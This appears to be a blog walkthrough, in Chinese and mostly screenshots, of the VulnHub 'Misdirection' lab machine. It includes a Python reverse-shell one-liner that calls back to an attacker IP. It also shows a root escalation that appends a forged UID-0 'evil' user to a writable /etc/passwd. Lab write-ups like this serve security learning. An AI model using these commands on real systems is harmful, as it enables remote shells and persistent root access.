 ```yaml
---
layout: post
title:  "Misdirection"
description: walkthrough
category: vulnhub
---
```

# Misdirection

![image-20200620201738035]({{ site.url }}/assets/Misdirection.assets/image-20200620201738035.png)



![image-20200620201922393]({{ site.url }}/assets/Misdirection.assets/image-20200620201922393.png)



![image-20200620203206697]({{ site.url }}/assets/Misdirection.assets/image-20200620203206697.png)





![image-20200620204041701]({{ site.url }}/assets/Misdirection.assets/image-20200620204041701.png)



![image-20200620205831163]({{ site.url }}/assets/Misdirection.assets/image-20200620205831163.png)

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.128",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![image-20200620210205666]({{ site.url }}/assets/Misdirection.assets/image-20200620210205666.png)

![image-20200620210736685]({{ site.url }}/assets/Misdirection.assets/image-20200620210736685.png)



![image-20200620211706511]({{ site.url }}/assets/Misdirection.assets/image-20200620211706511.png)

passwd可写。

直接增加用户即可

首先先制作用户的hash

```bash
openssl passwd -1 -salt evil abcdef
```

![image-20200619115605888]({{ site.url }}/assets/Misdirection.assets/image-20200619115605888.png)

`$1$evil$PJUrXHFg5Juh42jLCKQs10`

然后仿照passwd文件格式伪造用户信息

```bash
evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash
```

```bash
echo 'evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash' >> /etc/passwd
```

![image-20200620212243538]({{ site.url }}/assets/Misdirection.assets/image-20200620212243538.png)

![image-20200620212534003]({{ site.url }}/assets/Misdirection.assets/image-20200620212534003.png)